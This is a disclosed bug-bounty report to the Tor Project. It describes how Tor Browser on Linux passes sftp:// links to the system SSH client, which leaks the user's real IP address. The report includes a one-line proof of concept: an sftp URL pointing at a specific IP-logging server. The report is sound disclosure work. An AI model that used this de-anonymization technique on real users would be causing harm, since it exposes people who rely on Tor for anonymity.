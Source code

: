 # Linux TBB SFTP URI allows local IP disclosure

## Report Details
- **Report ID**: 253429
- **URL**: https://hackerone.com/reports/253429
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-07-26T02:31:31.667Z
- **Disclosed**: 2017-10-25T21:58:22.196Z

## Reporter
- **Username**: rethink5807
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: torproject

## Vulnerability Information
Browsing to a simple URL to an sftp URI allows bypasses socks proxy for DNS and browsing.
Tested on a clean install of Ubuntu 16.04 with TBB 7.0.2 (4097d43aa0be86ae3fe43ec8f3ac5394) download from https://www.torproject.org/dist/torbrowser/7.0.2/tor-browser-linux64-7.0.2_en-US.tar.xz
 
POC:
Navigate to sftp://104.131.180.179:80/index.php

After ~1 minute check http://104.131.180.179/ip,txt for your IP address

It appears that ubuntu's default SSH client is associated with this URI which causes the client to attempt the connection on behalf of the user. The windows TBB does not appear to be affected. 

Excerpt from apache logs:
apache2: [core:error] [pid 10671] [client x.x.x.x:40063] AH00126: Invalid URI in request SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.1

Not surprisingly, the client can also be directed to local resources as well.


## Attachments
No attachments

